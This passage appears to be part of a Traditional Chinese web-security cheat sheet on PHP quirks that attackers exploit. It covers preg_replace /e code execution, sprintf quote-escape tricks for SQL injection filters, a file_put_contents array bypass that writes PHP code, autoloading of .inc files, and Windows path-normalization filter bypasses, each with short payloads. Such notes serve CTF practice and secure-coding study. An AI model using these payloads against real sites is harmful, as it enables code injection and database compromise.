 ## preg_replace

- `mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )`
  - 搜尋`$subject`中匹配的`$pattern`，並用`$replacement`替換
- 第一個參數用`/e`修飾符，`$replacement`會被當成PHP code執行
  - 必須有匹配到才會執行
  - PHP 5.5.0起，會產生`E_DEPRECATED`錯誤
  - PHP 7.0.0不再支援，用`preg_replace_callback()`代替

example:

```php
<?php
$a='phpkaibro';
echo preg_replace('/(.*)kaibro/e','\\1info()',$a);
```

## sprintf / vprintf

- 對格式化字串的類型沒檢查
- 格式化字串中%後面的字元(除了%之外)會被當成字串類型吃掉
  - 例如`%\`、`%'`、`%1$\'`
  - 在某些SQLi過濾狀況下，`%' and 1=1#`中的單引號會被轉義成`\'`，`%\`又會被吃掉，`'`成功逃逸
  - 原理：sprintf實作是用switch...case...
    - 碰到未知類型，`default`不處理

## file_put_contents

- 第二個參數如果是陣列，PHP會把它串接成字串
- example:
  ```php
  <?php
  $test = $_GET['txt'];
  if(preg_match('[<>?]', $test)) die('bye');
  file_put_contents('output', $test);
  ```
  - 可以直接`?txt[]=<?php phpinfo(); ?>`寫入

## spl_autoload_register

- `spl_autoload_register()`可以自動載入Class
- 不指定參數，會自動載入`.inc`和`.php`
- Example:
  - 如果目錄下有kaibro.inc，且內容為class Kaibro{...}
  - 則`spl_autoload_register()`會把這個Class載入進來


## 路徑正規化

- `a.php/.`
  - `file_put_contents("a.php/.", "<?php phpinfo() ?>");`
    - 可成功寫入
      - 經測試Windows可以覆寫、Linux無法
    - 可以繞過一些正規表達式判斷
  - `file_get_contents("a.php/.");`
    - 經測試Windows下可成功讀、Linux無法
  - 還有很多其他function也適用
- `"` => `.`
  - `a"php`
- `>` => `?`
  - `a.p>p`
  - `a.>>>`
- `<` => `*`